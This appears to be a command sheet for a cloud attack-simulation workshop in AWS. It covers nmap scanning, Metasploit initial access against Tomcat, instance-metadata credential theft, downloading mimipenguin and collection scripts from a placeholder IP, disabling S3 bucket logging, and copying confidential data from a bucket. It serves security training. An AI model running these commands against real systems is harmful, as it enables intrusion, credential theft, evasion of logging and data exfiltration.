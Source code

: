 # All Commands

## Lab 0 - Explore

https://us-east-1.console.aws.amazon.com/ec2/home?region=us-east-1#Instances:tag:Name=LinuxBastion

```shell
kubectl get pods -A
```

https://us-east-1.console.aws.amazon.com/ec2/home?region=us-east-1#Instances:tag:Name=Kali

## Lab 1 - Reconnaissance - active scanning using NMAP

```shell
export TARGET_DNS=$(aws elbv2 describe-load-balancers --query \ LoadBalancers[].DNSName --output text)
echo $TARGET_DNS
```

```shell
nmap -Pn -v -A $TARGET_DNS
```

https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-554739/Apache-Tomcat-8.0.32.html

https://www.exploit-db.com/search?cve=2017-12617

## Lab 2 - Initial Access

```shell
./start-msploit.sh
```

```shell
sudo msfconsole -r startup.rc
```

```shell
sessions -i 1
```

```shell
ls -al
```

## Lab 3 - Privilege Escalation by enumerating instance profile role

```shell
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

## Credential Access via crednetials from Password Stores; Lateral Movement vis Ingress tool transfer.

```shell
netstat -n | grep 443
```

```shell
ls -al
```

```shell
wget http://IP/collection.sh
```

```shell
wget http://IP/mimipenguin.sh
```

## Lab 4 - Defense Evasion by impairing defenses

```shell
aws sts get-caller-identity
```

```shell
aws s3 ls
```

```shell
TARGET_BUCKET=$(aws s3api list-buckets --query 'Buckets[].[Name]' --output text | grep confidentialbucket)
echo $TARGET_BUCKET
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

```shell
echo "{}" > no-bucket-logging.json
aws s3api put-bucket-logging --bucket $TARGET_BUCKET --bucket-logging-status file://no-bucket-logging.json
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

## Exfiltration

```shell
aws s3 ls s3://$TARGET_BUCKET
aws s3 cp s3://$TARGET_BUCKET/confidential-data.txt s3-captured.txt
ls -al
```
